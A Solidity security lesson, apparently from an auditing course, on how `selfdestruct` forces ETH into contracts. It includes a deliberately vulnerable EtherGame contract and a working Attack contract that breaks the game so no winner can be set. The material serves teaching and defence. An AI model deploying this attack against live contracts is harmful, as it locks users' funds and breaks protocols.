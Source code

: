 # Self Destruct and Review
- ***Understand the use and implications of the `selfdestruct` keyword in Solidity. This lesson explains how `selfdestruct` can remove contracts and force ETH into specified addresses, a unique behavior with significant impact on contract functionality and security.***

## Forever On-chain ... mostly
- The next concept I want you to know is that of the `selfdestruct()` keyword in Solidity. In essence this keyword will destroy, or delete a contract.

## The Unique Characteristic of Selfdestruct
- Why `selfdestruct` stands out lies in its exceptional behavior once a contract gets destroyed. Any Ethereum (or ETH) residing within the deleted contract gets automatically ‘pushed’ or ‘forced’ into any address that you specify.
- Under normal circumstances a contract that doesn't contain a receive or fallback function (or some other payable function capable of receiving funds) cannot have ETH sent to it.
- Only through the use of `selfdestruct` can you be permitted to push any Ethereum into such a contract.
- So if ever you’re hunting for an exploit, or you have identified an attack where you need to force ETH into a contract, `selfdestruct` will be your instrument of choice.

## `selfdestruct` in Action
- To get a clear understanding, let’s put these into practice. Starting with a code base from [Solidity by example](https://solidity-by-example.org/hacks/self-destruct/) - and then carrying it into Remix, we will be able to observe this concept directly in action.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

/*
1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.

What happened?
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

- Looking closely at the above contracts, we can see that `EtherGame` requires `address(this).balance == targetAmount`. The expectation of the protocol is that any user can only deposit 1ETH and each deposit transaction is checked as a winner.
- Can you think of how we'd break these invariants?
- By leveraging `selfdestruct(payable(address(etherGame)));` on our `Attack` contract, we can force ETH to the `EtherGame` contract that isn't accounted for.

```js
if (balance == targetAmount) {
  winner = msg.sender;
}
```

- By forcing enough ETH to `EtherGame` we can assure the above condition is never met and a winner is never decided!

## Conclusion
- The `selfdestruct()` function is powerful. It's one of the only ways to force a contract to receive ETH that it doesn't want and in so doing exists as an attack vector for any protocol not prepared for it.
